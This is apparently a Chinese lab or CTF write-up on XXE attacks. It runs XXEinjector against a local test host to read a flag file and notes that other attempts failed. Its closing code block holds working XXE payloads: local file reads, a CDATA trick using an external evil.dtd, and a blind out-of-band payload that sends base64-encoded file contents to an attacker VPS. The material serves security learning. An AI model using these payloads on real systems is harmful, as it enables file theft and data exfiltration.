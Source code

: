 1. 读取文件内容

首先确认，目标服务器中的文件内容如下<br />![截屏2021-06-22 下午8.14.57.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624364140136-64a585dd-2abc-4a15-8fc1-8707c419f132.png#align=left&display=inline&height=140&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8B%E5%8D%888.14.57.png&originHeight=202&originWidth=366&size=30106&status=done&style=none&width=254)<br />之后输入<br />ruby XXEinjector.rb --host=192.168.43.204 --file=java8080.txt --path=c:/flag.txt --verbose<br />可以看到已经得到了文件内容<br />![截屏2021-06-22 下午8.16.44.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624364227672-33274ae3-fcd0-47eb-a3c3-5ab2e864b717.png#align=left&display=inline&height=1702&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8B%E5%8D%888.16.44.png&originHeight=1702&originWidth=3016&size=1155719&status=done&style=none&width=3016)<br />若要读取特殊字符，如PHP文件，则应该在后面加上<br />--phpfilter<br />(仅限php环境)<br />ruby XXEinjector.rb --host=192.168.43.204 --file=java8080.txt --path=c:/flag.txt --verbose --phpfilter

---

2. 获取服务器的hash

这里同上面获取hash的过程一样，无法成功，metasploit这边获取不到…………

---

3. 目录遍历

无论是mac本机还是kali虚拟机还是docker下的kali，都无法成功……
## metinfo6.0.0 cms漏洞审计
这个以后再补充吧
## xxe综合靶场拿flag
这个以后再补充吧
# 所涉及XXE代码
```xml
【试验】PHP语言下的XXE漏洞实战的代码：
<?xml version='1.0'?>
<!DOCTYPE user [
<!ENTITY margin SYSTEM "file:///c:/flag.txt">
]>
<user><username>admin&margin;</username><password>admin</password></user>


XXE读取有特殊字符的文件
payload如下
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///C:/Windows/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://127.0.0.1:83/evil.dtd"> 
%dtd; 
]> 
evil.dtd文件内容
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
ENTITY中定义CDATA

XXE无回显读取文件
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/hacker.txt">
<!ENTITY % dtd SYSTEM "http://VPS的IP地址/evil.xml">
%dtd;
%send;
]>
evil.xml内容
```